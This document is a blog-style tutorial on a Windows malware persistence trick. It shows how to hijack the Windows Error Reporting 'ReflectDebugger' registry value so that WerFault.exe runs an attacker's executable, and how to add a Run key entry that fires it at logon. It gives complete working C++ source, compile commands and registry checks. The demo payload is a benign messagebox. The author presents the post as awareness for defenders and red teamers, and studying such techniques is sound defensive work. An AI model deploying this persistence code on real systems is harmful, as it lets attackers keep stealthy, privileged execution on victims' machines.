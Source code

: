 \newpage
\subsection{84. malware development: persistence - part 18. Windows Error Reporting. Simple C++ example.}

﷽

![pers](./images/78/2022-11-02_05-28.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence trick: via `WerFault.exe`.     

### WerFault.exe

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

![pers](./images/78/2022-11-02_04-48.png){width="80%"}    

![pers](./images/78/2022-11-02_04-49.png){width="80%"}    

Add another filter:    

![pers](./images/78/2022-11-02_04-51.png){width="80%"}    

As a result, we have a loophole for hijacking this value:     

![pers](./images/78/2022-11-02_04-52.png){width="80%"}    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

### practical example

For simplicity, as usually, my "evil" application is just `meow-meow` messagbox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Also, I used [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
}
```

As a result, the final source code looks something like this (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
    strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-54.png){width="80%"}    

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-55.png){width="80%"}    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

![pers](./images/78/2022-11-02_04-56.png){width="80%"}    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/78/2022-11-02_04-58.png){width="80%"}    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

![pers](./images/78/2022-11-02_05-08.png){width="80%"}    

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

![pers](./images/78/2022-11-02_05-10.png){width="80%"}    

Then, logout and login:    

![pers](./images/78/2022-11-02_05-13.png){width="80%"}    

and after a few seconds our `meow-meow` messagebox is popped-up as expected:    

![pers](./images/78/2022-11-02_05-14.png){width="80%"}    

You can check the properties of `hack.exe` via Process Hacker 2:     

![pers](./images/78/2022-11-02_05-15.png){width="80%"}    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error 
Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path 
"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

![pers](./images/78/2022-11-02_05-17.png){width="80%"}    

![pers](./images/78/2022-11-02_05-22.png){width="80%"}    

![pers](./images/78/2022-11-02_05-22_1.png){width="80%"}    

Which can you notice if you decide to "return everything back to its place".    

So, as you can see everything is worked perfectly! =^..^=

> The next one was supposed to be 17, but it will come out together with the third part about the theft of tokens. I couldn't understand for 10 minutes why it doesn't work for me :)    

![pers](./images/78/2022-11-02_05-06.png){width="80%"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html))       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-02-malware-pers-18)     
